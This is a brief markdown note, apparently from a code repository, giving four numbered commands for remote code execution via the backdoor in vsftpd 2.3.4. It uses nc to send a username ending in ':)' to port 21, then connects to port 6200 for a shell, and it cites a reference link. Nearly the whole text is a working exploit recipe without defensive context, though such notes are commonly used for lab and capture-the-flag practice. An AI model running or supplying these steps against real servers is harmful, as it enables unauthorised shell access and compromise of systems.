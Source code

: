 ## RCE in vsftpd 2.3.4

1. `nc {ip} 21`
2. `USER random :)`
3. `PASS random`
4. get shell by `nc {ip} 6200`

Ref: https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/ 